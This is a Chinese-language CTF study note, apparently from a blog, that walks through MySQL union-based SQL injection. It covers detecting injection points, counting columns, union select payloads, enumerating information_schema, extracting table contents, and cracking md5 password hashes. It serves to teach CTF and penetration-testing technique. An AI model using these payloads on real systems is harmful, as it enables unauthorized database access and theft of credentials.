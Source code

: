 ```yaml
---
title: EASY SQL_Injection
date: 2019-12-25T21:33:03+08:00
tags:
  - CTF
categories: Penetration
---
```


> 以 `mysql` 为例， 不同数据库的特殊情况另行整理

## 0x00 判断注入点

`1 and 1=1` 返回正常， `1 and 1=2` 返回错误说明存在注入点
(以上为数字型，字符串型应加引号，如 `1'and’1'=‘1`)


## 0x01 判断字段数（列数）

使用 `order by <num>` , 根据返回判断列数，当 `<num>` 大于最大列数时，将返回错误

## 0x02 匹配字段位置

根据字段数构造联合查询语句 `id=1 and 1=2 union select 1,2,...n` ， `n` 即为字段数，根据不同数字在页面中出现的位置，选择合适的字段作为 payload 对数据库中的信息进行查询

## 0x03 内置函数和系统数据库

version() 版本信息
database() 当前数据库
user() 当前用户

- `and ord(mid(user(),1,1))=114 ` //即 user() 以字母 ’r‘ 开头

@@global.version_compile_os from mysql.user

## 0x04 使用 mysql 的数据库的系统库获取信息

（mysql 5 以上）information_schema

`select SCHEME_NAME from information_schema.SCHEMATA limit 0,1` //查看库名

`select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=<database> limit 0,1` //查看表名，<database> 可能需要转为 0xHHHHHHH 的十六进制格式。

`select  COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=<table> limit 0,1`//查看列名

`select <column_1>,<column_2>,concat(<column_3>,<column_4>) from <table> limit 0,1` //查看表内信息

（concat 函数中可以考虑用如 0x3c 之类的标识符进行分割）

## 后续

一般数据库中密码都会进行 md5 加密， 因此要获取明文需要对其进行解密
